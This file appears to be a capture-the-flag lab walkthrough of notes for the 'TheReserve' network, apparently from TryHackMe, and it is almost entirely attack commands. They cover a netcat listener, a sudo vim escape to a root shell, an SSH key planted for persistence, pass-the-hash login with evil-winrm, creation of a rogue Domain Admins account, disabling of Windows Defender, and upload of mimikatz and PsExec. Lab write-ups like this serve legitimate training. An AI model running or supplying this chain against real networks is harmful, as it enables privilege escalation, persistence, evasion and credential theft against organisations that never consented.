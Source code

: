 
# setup

## /etc/hosts

```shell
SubNetId=118
echo "10.200.${SubNetId}.11    thereserve-mail.thm mail.thereserve.loc" >> /etc/hosts
echo "10.200.${SubNetId}.12    thereserve-vpn.thm" >> /etc/hosts
echo "10.200.${SubNetId}.13    thereserve-web.thm" >> /etc/hosts
```

## setup openvpn DMZ -> internal network

```shell
wget -q http://thereserve-vpn.thm/vpn/corpUsername.ovpn -O corpUsername.ovpn
sed "s/remote 10.200.X.X 1194/remote 10.200.121.12 1194\\nroute 10.200.121.21 255.255.255.255\\nroute 10.200.121.22 255.255.255.255/" corpUsername.ovpn > corpUsername-118.ovpn
openvpn corpUsername-118.ovpn
```

```shell
firefox http://thereserve-web.thm/october/index.php/backend/backend/auth/signin &
# admin : password1!

nc -nvlp 8888


sudo /usr/bin/vim -c :!/bin/bash
cat <<EOF >> /home/ubuntu/.ssh/authorized_keys
ssh-rsa <Your Private Key Here> mentalyDisturbed
EOF
```

```shell
cd breaching
ssh -D 1080 ubuntu@thereserve-web.thm -i ./web-key  -N
```

## to corpdc

gem install evil-winrm
unalias evil-winrm

proxychains evil-winrm -i 10.200.118.102 -u Administrator -H d3d4edcc015856e386074795aea86b3e

```
net user d1sturb3d /add M3nta11y /domain
net group "Domain Admins" d1sturb3d /add /domain
```

```
Set-MpPreference -DisableRealtimeMonitoring $true
upload mimikatz.exe
upload PsExec64.exe
```
